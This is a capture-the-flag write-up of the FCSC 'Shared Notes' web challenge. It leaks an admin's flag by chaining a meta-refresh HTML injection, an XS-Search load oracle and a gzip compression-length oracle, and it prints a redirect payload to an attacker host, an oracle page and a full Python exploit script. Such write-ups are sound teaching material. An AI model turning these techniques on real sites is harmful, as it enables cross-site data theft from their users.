




# Shared Notes \(web, 500\)

**Shared Notes** was one of the two difficult web challenges, that was solved by a handful of people.

The challenge was divided in three parts:

* **HTML scriptless injection** under strict CSP to redirect the admin
* Making the admin perform requests through an **XS-Search**
* Leak the flag through a binary **compression length oracle**

It honestly took me around 15 minutes to come up with this plan, and around 15 hours to make my exploit work. The concept, even if slightly contrived, is really cool though.

Let's cover each part of the resolution in depth.

## A first look at the website

We are greeted with this home page, which already contains pretty important intel.



* Users can share their notes to each other \(actually, it's kind of the other way around, you need to specify someone else's user ID to have their notes shared with you, which is a bit weird, especially knowing that the user ID is literally your session cookie :^\)\)
* An admin \(a bot!\) will check the notes you report
* The admin owns a note with the flag
* There is a backup archive system and the backups cannot exceed 1 KB.

We also remember that the challenge description specified the flag format: `FCSC{[0-9a-f]{10}}`. This is quite unusual for a web challenge: it probably means the flag cannot be retrieved in a single request. Even worse, it probably means it takes a long time to retrieve, hence the short length.

Let's create an account:



We can perform several actions:

* Create a note \(title and description\)
* See our list of notes
* Delete a note
* Report a note
* Download a backup of our notes
* Show notes from a friend \("Share"\)

Let's detail them backwards.

The note sharing feature asks for our friend's user ID and our password:



Based on that, we know the challenge will not involve making the admin perform an action on this form, because it would imply knowing their password, and if we do, we could just directly login as them. Likewise, our goal will not be to have the admin's notes shared with us through this form, because it would imply knowing their user ID, which is equivalent to logging in.

Backing up notes now: click on the link \(`/backup`\) and you will be able to download a `notes.gz` file containing the contents of your notes in JSON format, compressed with `gzip`.

```javascript
[{"title":"Hello World!","content":"This is an example"},{"title":"test","content":"test!!"}]
```

Okay, that's a pretty unusual feature... let's keep it in mind for later.

## HTML Scriptless Injection

Right away, we want to check if there's some kind of XSS in the note display. We can indeed inject HTML tags, but the CSP is pretty heavy:

```text
default-src 'none';
script-src     https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.min.js https://cdnjs.cloudflare.com/ajax/libs/popper.js/2.9.1/umd/popper.min.js https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.6.0/js/bootstrap.min.js;
style-src 'self';
form-action 'self';
font-src 'self';
```

I tried looking for XSS gadgets in the different JS libs, unsuccessfully. The `<base>` attribute could be used to change the base URL for most actions, but the admin won't click anywhere.

We can at least redirect the admin through a `<meta>` redirection, like this:

```markup
<meta http-equiv="refresh" content="0;url=http://hookbin...">
```

Report the note and **the admin does get redirected**. Nothing special to notice about the User-Agent and there's no Referrer header. Since we aren't lucky with doing anything more injection-wise, let's keep it at that and think of what we can do next.

## XS-Search

If we redirect the admin on our own HTML page, we can use **XS-Search** to make them perform certain types of requests. We won't be able to exfiltrate response data from GET requests \(we would need to specify the admin's cookie anyways\), but we can make them **load a page through an image or a script**, and exfiltrate whether the loading was **successful or not**.

In particular, we can probe whether the admin loaded a `<script>` tag correctly \(200\) or not \(4xx\) with a page that looks like this:

```markup
<!DOCTYPE html>
<html>
<body></body>
<script>
const script = document.createElement("script");
script.src = "http://challenges2.france-cybersecurity-challenge.fr:5006/something"
script.onload = () => { document.location.href = '/log.php?a=1'; };
script.onerror = () => { document.location.href = '/log.php?a=0'; };
document.head.appendChild(script);
</script>
</html>
```

Now let's get back on the site and look for a final element that could help us.

## Compression Length Oracle

When you add a friend to have their notes shared with you, here's what you get.



You can remove the link between you and your friend with a GET request to `/unshare`, but redirecting the admin there doesn't seem any exploitable.

It took me a bit too long to realize that when someone has their notes shared with you, **your backup link changes**. Now, it looks like this:

`http://challenges2.france-cybersecurity-challenge.fr:5006/backup/dcc9e7cb66b8bc89cb57f07f4fcdf26d6d3da32faa223c8dc91dbf831a5e068f182ee58133771c1d93a6e874088ee6aad15f3b1b1168a93be913d794cb07e95f`

...the user ID in the URL being your friend's user ID. When you download the backup, **their notes are also included in the JSON**!

Therefore, we are able to make the admin make a request to `/backup/<uid>` where `<uid>` is the user ID of an account we own. In other words, we found a way to **control a portion of the backup file** downloaded by the admin.

Let's summarize:

* We can **make the admin load pages** and we know whether the loading was **successful**
* There's a route where the admin can download a **gzip-compressed** version of a JSON which contains **both** **something we control** _and_ **the flag** \(in one of the admin's notes!\)

Is there a way we can connect these two elements? In order to do so, it would be very helpful if the `/backup/<uid>` route could sometimes fail to load. Lucky us, this route yields a **418 error when the contents of the backup file exceeds 1 kB**!

The final idea consists in exploiting **how compression works**. It is not necessary to know how _gzip_ really works internally, but some results are very intuitive; check it out yourself:

```python
>>> len(zlib.compress(b'FCSC{just_compress_me_bro}'))
34
>>> len(zlib.compress(b'FCSC{just_compress_me_bro} some random unrelated stuff'))
62
>>> len(zlib.compress(b'FCSC{just_compress_me_bro} FCSC{just_compress'))
38
```

Compression will leverage **redundancy** in text to achieve better deflation. This will help us **leak the flag one character at a time**!

The main hardship we will have to cope with now is the fact that we don't have a full-on length oracle, but rather a binary oracle based on a length threshold:

```python
>>> len(zlib.compress(b'FCSC{just_compress_me_bro} FCSC{just_compresx'))<39
False
>>> len(zlib.compress(b'FCSC{just_compress_me_bro} FCSC{just_compress'))<39
True
```

This kind of technique can be _very_ unstable though if not executed properly. You have to make sure the uncompressed data other than the character you try won't change, use "stop patterns"... and even then there can be false positives.

A few select resources on the Internet try to formalize these kinds of attacks, but they are not very widespread. We're gonna have to try and get our hands dirty to see what works best.

## Building the exploit

Our exploit will use two user accounts. One will store the big note that will reach the size limit and search for the flag ; the other account will post and report the note with the redirection payload.

We will redirect the admin on our HTML page hosted on our server, say `http://evil/a.php`.

Note: I couldn't make the XS-Search work with HTTPS because the browser refuses to load HTTP resources when the current webpage is on an HTTPS site, so the server has to be HTTP.

`a.php` contains the following:

```markup
<!DOCTYPE html>
<html>
<body></body>
<script>
const script = document.createElement("script");
const uid = "<uid of first account to replace>";
script.src = "http://challenges2.france-cybersecurity-challenge.fr:5006/backup/" + uid;
script.onload = () => { document.location.href = '/log.php?a=<?php echo $_GET['a']; ?>-1'; }; // Success
script.onerror = () => { document.location.href = '/log.php?a=<?php echo $_GET['a']; ?>-0'; }; // Error 418 (backup > 1kB)
document.head.appendChild(script);
</script>
</html>
```

I used a PHP script to pass a querystring argument that I could pass on to my logger, in order to "tag" the admin's requests to make them easier to analyze. The logger itself just writes data to a log file.

Now for the exploit itself:

```python
import requests
from string import ascii_uppercase
from time import sleep, time

url = "http://challenges2.france-cybersecurity-challenge.fr:5006"

uid1 = "<uid 1>" # same than in html payload
uid2 = "<uid 2>"

def add_note(content, uid):
    r = requests.post(url + "/save", cookies={'uid': uid}, data={'title': 'a', 'content': content}).text
    note_id = r.split('<a class="close" href="/report/')[-1].split('"')[0]
    return note_id

def report_note(note_id, uid):
    requests.get(url + "/report/" + note_id, cookies={'uid': uid})

def delete_note(note_id, uid):
    requests.get(url + "/delete/" + note_id, cookies={'uid': uid})

def attack_one(content, tag, uid):
    clear_log()
    print("[+] Adding note %s" % tag)
    note_id = add_note(content, uid)
    print("[+] Note saved: %s" % note_id)
    report_note(note_id, uid)
    print("[+] Reported. Waiting for the admin.")
    time_deb = time()
    line = None
    while True:
        if time() - time_deb > 60:
            print("[+] Admin is taking too long... abort.")
            delete_note(note_id, uid)
            print("[+] Deleted note.")
            return None
        lines = requests.get("http://evil/log").text.split("\n")
        if len(lines) > 1:
            line = lines[-2]
            if ' ' + tag in line:
                print("[+] Admin has checked in %ss! %s" % (time() - time_deb, line))
                break
        sleep(1)
    delete_note(note_id, uid)
    print("[+] Deleted note.")
    return line

R = "JXVIGHKGJHGAJNBNXVVIOXPYWYUADGEJAKVIXMAPWIUPZWOXNZURYZJAOWUTNZOZUWOAIRUNNZIIROBBXIXOXYROANPQMSKRMYQGWIWHLWTJTGWMJTLMULJZMTJZOVGONKWIHMGLWRNRURMYJRXJWGKQVQGNGMXMINIMWYPHMVIYYQLUJLQYXZTLIXHVKYTYPPIHGZUZWKLUORUPPIJKKRINZHZXWIWYQTNOMMTVORMUTUTJJGLQPTGVLOPKHPNUVVYJWOJXMHXZXLTRKZVOTKNXKRKRPGVRZNVTXNXYMWWRJQNRMJOLTMGXWGLRYZJOMWRXPGJUNQNUHRKHNPJWYHXMWJQQQVPWUUXPNOXXHNLHLVUHZLIYZIURYYVQYKWTYLUKJJTKWRNIRGUHHZUNXUIHTQGYMTIVZQXTQHZUHOVZWNHYMIPVMTQKYURRXKITHRITRXUYQGKUKIPWXINMVZVMGXYJUOTZPYGQQJIVVVHXHJYLQTILZUJPIZIYXKRNWKLVXKOULZOQWIYWQLRQJOXOYIYIJURKNMYJRNNMROUTRJUIVWMWTHLJIQVPVWYQILWZYLKMXJOTVVHHMONZLZJXKHHJGZQVLRQLPOVQNVZPQLVUOULOQUULVIXTQIPVTJOVOGVOVNQVYKPVYUJNLKYLKMUTUITGQHYHQLJQMHYXZHHJTNUIUUQPMTVWYKKUJWWRORNOMJORUNNNOHGOWOJYVGONHQWIGYUJTPNLTQZWPVOHYOOTKGJKKGOIJLMOMTQJJGIYGMRIQNYWXKNTMUTKGMRGTTNPJUMWVUQGTOIIUUWZMWPYONIPVKOHRLVVJYGWZXRNJJJMIILYYKNZNVTPGXWVOLUQKHKWYGGNURHJJWZLOWPJLGZYULKRZPXVRWHVKWHUWUHTMNZVPQIGKUQQWJZKGNWNKHVRUWKJQONYVOZPGHKYLWXPGTGOPMZUIUTRJKJPVYXXPGTJMYPWWOUNHNQPYMIQHVGNXRZIJLIZHGKRKKUUGQIPIPRKURYQLHZQMUYOQRGQNKUNPNHZNOJXKHNUNKUIXPWNJJXKWIMPJLUQWNWJRJYOWXYMHXTILHLNYNLNXLJUVPGHOLVURKGZYOTIOOMGOQNKOUXRQUGLYUWPJPZXKXNRZNWVGWZVHNMRJMGNNXZZHIIKVYTLHHYVKOXMXYMWLYQOJOQQGTKJXVQKPKYQJKKPMVIYOJGWJUGRQUUWLZRLUKMOWWOOGTQJVGXHTHYWUNXPYYIYRIWZUNWRVVLKIYGJHJNNTWRUZNQOZNVWOWQWYNLHGIKQOUVMTUOWVKJKZNGRQGGOUUHPPIRHYZGOHHPGWYRKIIPVVUXNWOWTUIWZQTZHZYGNKPJVWXXRZTYMTRNQYYNIKVIRLIUQMIQOVOULNKZLTLPLNXGYNMWVUPXNVHGVIUHKKNKVRPPZOLPNQZIRKZYKRXXRUHUWYVRRTRZIMVIIRQHTPXKYHJPXYPUWYGIUYKOWJXJZPMOYVVLPVPRQGGOLHRHVXVTQGLLOOTIVYLQGLQHZMRGIGUQPVMUUOYVINOYVKUVKYVO"

R += "FCSC{"

flag = ''
charset = '0123456789abcdef'
for i in range(1):
    j = 0
    while j < len(charset):
        char = charset[j]
        tag = str(i) + '-' + char
        note_id = add_note(R + char, uid1)
        ret = attack_one("""<meta http-equiv="refresh" content=0;url=http://evil/a.php?a=%s""" % tag, tag, uid2)
        delete_note(note_id, uid1)
        if ret is None:
            continue
        # if ret.endswith('1'):
        #     flag += char
        #     print(flag)
        #     R += char
        #     break
        j += 1
```

Unfortunately, this exploit does not work very well. It finds the first characters of the flag, and then it stumbles upon a lot of false postiives. On top of that, it can't really be run autonomously; each character needs to be exploited differently, by reajusting all the lengths, etc. By the way, to explain the weird `R` string, I needed to easily generate a string that would compress in something long enough, so with very few repeating patterns, and I also tried as much as I can to eliminate characters that could interfere with the flag.

This is the part that took me countless hours, especially because the bot itself was pretty slow and unstable throughout the CTF, or at least the first days when I solved the challenge \(sometimes you had to wait a whole minute for the admin to check one note you reported\).

At this point I had around half of the flag: `FCSC{2172b`. I eventually found a way to efficiently recover the other half of the flag, by exploiting a "sliding window": for some reason, I had better results by trying fixed-length payloads like `[PADDING] FCSC{2172b` and then `[PADDING] CSC{2172ba`, instead of increasing length.

This eventually allowed me to exfiltrate the whole flag: **`FCSC{2172bd19c0}`**.

Enjoy!

